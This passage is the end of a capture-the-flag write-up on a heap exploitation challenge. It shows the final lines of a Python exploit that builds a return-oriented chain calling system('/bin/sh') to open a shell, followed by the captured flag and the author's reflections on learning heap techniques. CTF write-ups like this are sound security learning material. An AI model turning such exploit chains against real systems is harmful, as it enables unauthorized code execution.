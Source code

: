 ```python
payload = pack(pop_rdi)
payload += pack(str_bin_sh)
payload += pack(ret)
payload += pack(system)

edit(2, payload)

io.readline()

################ Shell ################
print('Enjoy shell')

io.interactive()
```

# Enjoy

![[image_shell.png]]

# Flag

```Blitz{f4stb1n_dr1ll_thr0ugh_m3m0ry_b4rr13r}```

# Final thoughts

Despite the fact that I didn't have so much experience with heap challenges, especially on modern glibc versions, this was still very fun to me. I kept running from one problem into another and learned many new things in the process of solving each of them. This is why I really wanted to make a detailed writeup about it.
